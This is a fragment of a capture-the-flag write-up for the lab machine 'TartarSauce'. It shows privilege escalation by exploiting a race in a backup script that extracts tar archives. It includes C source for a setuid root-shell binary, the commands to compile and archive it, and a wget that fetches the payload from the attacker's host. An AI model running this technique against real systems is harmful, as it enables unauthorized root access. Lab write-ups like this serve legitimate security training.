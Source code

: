 ### Tar command execution
The `tar` command is used to compress a group of files into an archive. The command is also used to extract, maintain, or modify tar archives.

A static analysis of /usr/sbin/backuperer (Appendix A) , reveals that /var/www/html/ is backed up to /var/tmp/, and subsequently extracted to “/var/tmp/check/var/www/html/”. If this folder exists and its contents are not the same as “/var/www/html”, the extracted files are not immediately deleted. 

There is a window of opportunity to replace this backup with a malicious version and have a setuid binary extracted. The 32-bit setuid binary and tar archive are created:

```bash
# kali
mkdir -p var/www/html
cd var/www/html
vim setuid.c
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
setuid(0); setgid(0); system("/bin/sh");
}
```

```bash
sudo su
# Must use root privilege
gcc -m32 -o setuid setuid.c
chmod 6555 setuid
ls -al
rm setuid.c
cd ../../..
tar -zcvf setuid.tar.gz var/
```

![[TartarSauce-16.png]]

![[TartarSauce-17.png]]

After transferring the payload and overwriting the temporary backup file (e.g. “.05ec79…”), the setuid binary is successfully extracted and a root shell is gained.

```bash
# rhost
cd var/tmp
wget http://10.10.14.4/setuid.tar.gz
```

check the list timers:

```bash
systemctl list-timers
watch -n 1 `systemctl list-timers`
```
